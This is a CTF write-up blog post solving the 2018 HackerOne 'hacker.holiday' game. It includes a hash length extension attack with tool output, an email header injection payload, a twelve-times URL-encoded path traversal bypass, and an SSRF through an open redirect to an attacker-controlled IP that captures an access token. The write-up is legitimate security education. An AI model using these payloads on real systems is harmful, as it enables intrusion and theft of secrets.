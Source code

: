 ```yaml
---
layout: post
title:  "hackerone holiday game write-up"
date:   2018-08-15 17:17:08 -0700
categories: ctf hackerone
---
```


If you attended the Las Vegas security conferences in August 2018 you probably couldn't miss the hackerone game for the h1-702 event. This flyer was all around BSides and DEFCON:

![flyer](/assets/img/hacker-holiday-2018/flyer.jpg)

## The beginning

The hostname on the card is ```atvdxk.ahebwtr```, using ROT7 this translates to ```hacker.holiday```. The game seems to start at [https://hacker.holiday/](https://hacker.holiday/){:target="_blank"}

There are 7 pink squares in the top left corner, not sure if that's a hint, maybe? :-)

The game further consists of several parts, quick jump links:

* [Hash length extension attack](#hash-length-extension-attack)
* [Steganography](#steganography)
* [E-mail header injection](#e-mail-header-injection)
* [Server Side Request Forgery](#server-side-request-forgery)
* [Text cipher](#text-cipher)

## Hash length extension attack

The website is very basic, the first (obvious) file to display is ```rules.txt``` at [https://hacker.holiday/?file=rules.txt](https://hacker.holiday/?file=rules.txt){:target="_blank"}:

![rules.txt](/assets/img/hacker-holiday-2018/rules.txt.png)


Trying to browse different (non-existent) files, e.g.: [https://hacker.holiday/?file=nonexistent](https://hacker.holiday/?file=nonexistent){:target="_blank"} shows:

```
Error: Invalid file name. 
DEBUG mode is currently disabled.
```

Debug mode, hmm, first wild guess of appending ```debug=1``` to the URL actually works :)

[https://hacker.holiday/?file=nonexistent&debug=1](https://hacker.holiday/?file=nonexistent&debug=1){:target="_blank"} shows:


![alt-hash.png](/assets/img/hacker-holiday-2018/alt-hash.png)

Interesting, this reveals a file ```next.207``` is present and some kind of a hash for ```rules.txt```, the title for ```next.207``` is ```hash: ???```.

Trying to load ```next.207``` file errors out with ```No hash specified```, so another wild guess of appending a ```hash``` parameter leads to: [https://hacker.holiday/?file=next.207&hash=asdf](https://hacker.holiday/?file=next.207&hash=asdf){:target="_blank"}

![invalid-hash.png](/assets/img/hacker-holiday-2018/invalid-hash.png)

Considering the help on the bottom of the page a hash length extension attack seems viable. To make work easier the [hash_extender](https://github.com/iagox86/hash_extender) tool was used.

The hash is 40 characters long, which seems to correspond with sha1. After a bit of trial and error a secret of length 16 was discovered:

```bash
$ ./hash_extender -d rules.txt -s 266b99aac278c0fd7be8a55025ba8afc854c88da -a next.207 -f sha1 -l 16 --out-data-format=html
Type: sha1
Secret length: 16
New signature: fde7f5100bbe028edb4c6c971afab98eeecf0ac2
New string: rules%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%c8next%2e207
$
```

File ```next.207``` can be accessed like this: ```https://hacker.holiday/?file=rules%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%c8next%2e207&hash=fde7f5100bbe028edb4c6c971afab98eeecf0ac2```

![next.207.png](/assets/img/hacker-holiday-2018/next.207.png)

## Steganography

The data are saved into a file using hex editor, the file was examined and it looks a lot like a PNG file (```pHYs```, ```IHDR``` and other chunks name are present) but the file is not recognized as such. It seems the first 4 bytes are zeros instead of a valid PNG header. They are put back from a different PNG file - ```89 50 4E 47```. The file is now a valid PNG image:

![next.207-fixed.png](/assets/img/hacker-holiday-2018/next.207-fixed.png)

There is a weird white bar on the top of the image, I first thought this was some kind of data corruption but it is actually supposed to be like that. I tried a couple tools, after a few of them I found **stegsolve** makes it easy to browse through different filters and discover the next step, sub-directory of ```/admin!31337/```.

![next.207-stegsolve.png](/assets/img/hacker-holiday-2018/next.207-stegsolve.png)

### E-mail header injection

So here we are at [https://hacker.holiday/admin!31337/](https://hacker.holiday/admin!31337/){:target="_blank"}. Admin login form is shown, doesn't seem to be vulnerable to SQLi. The forget password functionality looks interesting, it requires a domain of ```@hacker.1```:

![forgot-password.png](/assets/img/hacker-holiday-2018/forgot-password.png)

This asks for a header injection. I made an assumption (NEVER do that, it's a horrible idea :-)) that the e-mail must end with ```hacker.1``` domain and kept trying to inject something at the beginning of the input. One could argue this would work in a real header injection vulnerability but hey, don't make assumptions. The injection only works at the end of the input, posting data like this:

```
email=asdf@hacker.1%0d%0aCc: lukash@backstep.net
```

results in the web application saying:

![header-injection.png](/assets/img/hacker-holiday-2018/header-injection.png)

### Server Side Request Forgery

New sub-directory is [https://hacker.holiday/admin!31337/el337er/](https://hacker.holiday/admin!31337/el337er/){:target="_blank"}.

![el337er.png](/assets/img/hacker-holiday-2018/el337er.png)

The [robots.txt](https://hacker.holiday/robots.txt){:target="_blank"} file reveals the [flag.php](https://hacker.holiday/flag.php){:target="_blank"} script that cannot be accessed (```MISSING ACCESS TOKEN```).

The script ```image.php```  seems like it is accessing ```https://hacker.holiday/admin!31337/el337er/<value of $u>``` over HTTP, so it's a simple SSRF vulnerability. Or is it?

Well, not really. Trying to access ```flag.php``` like this: [https://hacker.holiday/admin!31337/el337er/image.php?u=../../flag.php](https://hacker.holiday/admin!31337/el337er/image.php?u=../../flag.php){:target="_blank"} does not work (```Hacking attempt! Only three . allowed.```). There are 2 ways I know of to bypass the "hacking filter" :-)

#### Url-encoding headache

I only actually learned about this after completing the game when I discussed it with a fellow hacker at the h1-702 event (thanks Sam!).

I tried url encoding the dots once, twice and a couple times, it didn't seem to help. So I assumed (again, NEVER do that, it's horrible!) there must be a url decode in a loop that just goes on until there is no more url encoding. Nope.

Encoding the dots **12 times** does the trick:

```
https://hacker.holiday/admin!31337/el337er/image.php?u=%25252525252525252525252E%25252525252525252525252E/%25252525252525252525252E%25252525252525252525252E/flag.php
```

Lesson learned, if url encoding 5 times doesn't help don't give up, more encoding is always better, lol.

#### Open redirect

I thought of a ```logout.php``` script from previous step that had an open redirect vulnerability in it and tried to utilize it but have not found a way of traversing up to get to the ```flag.php``` using only three dots.

Quite a few beers later I came up with a way of redirecting out of the server without using any more dots (as 3 dots are needed to get one level up to ```logout.php```):

```
GET /admin!31337/el337er/image.php?u=../logout.php?r=http://0x01020304
```

```0x01020304``` being encoded IP of a server that I control (1.2.3.4 for this example). The ```image.php``` tries to initiate a GET request towards that:

```
GET /flag.php HTTP/1.1
Host: hacker.holiday
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
FLAG-ACCESS-TOKEN: h4ckth3pl4n3t
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

This reveals the ```FLAG-ACCESS-TOKEN: h4ckth3pl4n3t```. Accessing ```flag.php``` with the right header shows the content:

```
<h1>Access granted!</h1><p>Welcome to the end of your journey, remember where it all began...</p><p>GQMYJSGPSMGZRDDQNFBLZFGSDLWQMOPRSZRQAGOLQKWSRPSRZEAEDAQAFWPZ</p><p>(This is not the flag, you still have one final step to go!)</p><!-- http://rumkin.com/tools/cipher/ -->
```

## Text Cipher

Using the string from the answer (```GQMYJSGPSMGZRDDQNFBLZFGSDLWQMOPRSZRQAGOLQKWSRPSRZEAEDAQAFWPZ```) and the string on the paper card (```KCMGUACPFFZNARLDGMFLSMGUNPNTAHWFDHUQYCWEXGEFETJTGMCOHNTISJTQ```) I started looking for an algo to decrypt the final message. Luckily I noticed the HTML comment in the response otherwise this would have taken a lot more time :-)

A bit of manual bruteforcing and the algorithm was found here: [http://rumkin.com/tools/cipher/otp.php](http://rumkin.com/tools/cipher/otp.php){:target="_blank"}

The decrypted answer is:

```
EMAILIWANTTOJOINTHEATHACKERDOTHOLIDAYWITHWINNERCHICKENDINNER
```

Voila. h1-702 hackathon was a lot of fun. Looking forward to next year ;)
